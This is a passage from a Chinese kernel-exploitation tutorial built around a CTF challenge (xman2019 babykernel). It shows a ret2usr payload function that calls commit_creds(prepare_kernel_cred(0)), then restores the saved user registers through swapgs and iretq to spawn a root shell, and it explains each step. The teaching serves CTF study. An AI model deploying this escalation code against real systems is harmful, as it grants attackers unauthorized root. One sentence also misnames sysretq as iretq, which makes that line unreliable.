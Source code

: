 当后续进行了一系列特权操作提升权限 `如: commit_creds(prepare_kernel_cred(0))` 后，  
即可手动将存储的 ss、sp、rflags、cs push 到栈上，并且设置 rip 返回地址，最终调用 iretq

```c
void restore_stat()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
	::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs));
}
```

那swapgs 和 iretq 是干嘛的呢？  

当调用 swapgs 时，内核通过 swapgs 将用户态 GS 基址保存到 MSR，并加载内核的 GS 基址. 一个正常业务中的 syscall 的 gs 切换逻辑如下所示

```asm
syscall						//触发某个系统调用
↓
swapgs						//将用户态 GS 基址保存到 MSR，并加载内核的 GS 基址
mov %rsp, gs:[cpu_stack]	//使用内核 GS 访问内核堆栈
[该系统调用主逻辑]
swapgs						//恢复用户 GS
sysretq						//返回用户态
```

当调用 iretq 时，栈结构如下所示. iretq 按如下结构恢复各个寄存器的值并返回到用户态，结束. 

```stack
rsp:   rip    的值
       cs     的值
       rflags 的值
       sp     的值
       ss     的值
```

为什么 syscall 不使用 iretq 而使用 sysretq？  
因为 int 0x80、iretq 用于较为复杂的中断、异常或任务切换的返回，是一种需要从堆栈恢复上下文的切换.  
而 syscall、iretq 是专门为快速系统调用设计的指令，比 int 0x80 和 iretq 更高效. syscall、sysretq 不涉及堆栈切换(仅 RSP 和 SS) 

那么 `commit_creds(prepare_kernel_cred(0))` 到底干了什么？`prepare_kernel_cred(0)` 这个函数会使我们分配一个新的cred结构(uid=0, gid=0等)，再使用 `commit_creds` 并且把它应用到调用进程后，此时我们就是root权限了. `commit_creds` 和 `prapare_kernel_cred` 都是内核函数，一般可以通过 `cat /proc/kallsyms` 查看他们的地址，但是必须需要root权限

### [](#header-3)题目 xman2019 babykernel

题目下载：[babykernel.zip](/image/kernelpwn/babykernel.zip)
